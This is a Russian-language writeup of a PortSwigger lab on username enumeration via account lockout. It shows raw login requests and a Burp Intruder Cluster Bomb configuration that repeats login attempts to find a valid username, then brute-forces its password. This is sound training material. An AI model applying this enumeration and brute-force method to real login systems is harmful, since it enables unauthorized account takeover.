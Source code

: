 ```yaml
---
title: "Username enumeration via account lock"
date: 2025-09-04
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/password-based-vulnerabilities/authentication/password-based/lab-username-enumeration-via-account-lock"
classes: wide
---
```


Для прохождения данной лабы нужно найти валидный логин и получить к нему доступ через ошибку в логике **аутентификации**. 

```
https://0aaa0014037a2cf181130738001100f3.web-security-academy.net
```

## Solution

Для начала нужно узнать валидные имена пользователей. Для этого соберу `HTTP`-запрос:

```http
POST /login HTTP/2
Host: 0aaa0014037a2cf181130738001100f3.web-security-academy.net
Cookie: session=9rmSqWjyOF7o05lo7Oxwg4DV4fAjDjnF
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaa0014037a2cf181130738001100f3.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0aaa0014037a2cf181130738001100f3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=login&password=password
```

Теперь попробую перебрать список логинов и посмотрю, что будет. Так получилось, что у аккаунта `athene` пароль был `password`. Ну и я его угадал. Так не должно было случиться. Но лаба пройдена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/1.png){: height="200" .align-center}

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/2.png){: height="200" .align-center}

Попробую решить ее иначе. Ибо это была чистая удача. Получу новый запрос:

```http
POST /login HTTP/2
Host: 0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net
Cookie: session=m95DGM8JYygamHSSkoNtJcF0V8uM1VGs
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=account&password=aaaaaaaaa
```

Переберу список логинов. Никаких отличий в ответах нет. Попробую отправить запрос к каждом аккаунту несколько раз. Для этого в `Burp Intrueder` выберу атаку `Cluster Bomb`. Отмечу места для пейлоадов на месте логина и в конце пароля:

```http
POST /login HTTP/2
Host: 0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net
Cookie: session=m95DGM8JYygamHSSkoNtJcF0V8uM1VGs
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://0aef009b03696d7c819b5c3b00cd0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=§account§&password=aaaaaaaaa§§
```

Для `account` буду использовать список логинов. Для второго пейлода сгенерирую 10 пустых шаблонов, выставив `Null payloads`. Таким образом для каждого аккаунта будет совершено 10 попыток входа. Отсортировав по размеру ответа я получил следующий результат:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/3.png){: height="200" .align-center}

Посмотрю сам ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/4.png){: height="200" .align-center}

Такс. Нужный логин я нашел. Теперь нужно подобрать пароль. Переберу пароли из списка с сайта:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/5.png){: height="200" .align-center}

После сортировки получился интересный результат. У нескольких ответов была ошбика неверных данных, у большинства - ошибка множественных не успешных попыток, и только у одно нет ошибки. Ну что это, если не знак?)

Попробую следующие креды `ftp`:`maggien`.

Я в системе!)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Username_enumeration_via_account_lock/6.png){: height="200" .align-center}